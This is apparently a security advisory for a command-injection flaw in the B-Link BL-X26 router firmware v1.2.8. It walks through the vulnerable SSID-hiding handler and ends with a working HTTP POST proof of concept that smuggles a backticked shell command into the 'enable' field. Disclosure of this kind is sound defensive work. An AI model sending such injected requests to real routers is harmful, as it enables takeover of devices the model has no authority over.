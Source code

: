 ## **Basic Information**

- **Vendor:** B-Link
- **Vendor Website:** https://www.b-link.net.cn/
- **Affected Device Type:** Router
- **Affected Product:** BL-X26
- **Affected Product Version:** v1.2.8

## 1. Vulnerability Overview

B-Link X26 router V1.2.8 version has a command execution vulnerability. Triggering this vulnerability requires authorization. Once the attacker obtains authorization, he can trigger the vulnerability by sending a malicious HTTP POST request.



## 2. Vulnerability Details

When the request path is set_hidessid_cfg, it will enter the processing logic of the sub_44F9F4 function

![](img/1.png)

You can see that two fields are set to values: type and enable. The parameters are then packaged into a JSON object and passed to the bs_SetSSIDHide function.

The bs_SetSSIDHide function is encapsulated in the libshare-0.0.26.so library.

![](img/2.png)

It can be found that bs_SetSSIDHide takes the values of the two json format objects passed in, and then there is a judgment, the type value is sethide2 to bypass this if branch

![](img/3.png)

Here you will find that the command v19 is executed, and v19 is spliced from v7, and v7 is the value enabled, which is the value passed in at the beginning.

![](img/4.png)

![](img/5.png)

Then there is a libc function related command execution

## 3. POC

POST /goform/set_hidessid_cfg HTTP/1.1

Host: 192.168.16.1

Content-Length: 43

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.16.1

Referer: http://192.168.16.1/admin/more.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: user=admin; platform=0

Connection: keep-alive

 

type=sethide2&enable=`ls>/etc_ro/web/3.txt`



![](img/6.png)

![](img/7.png)

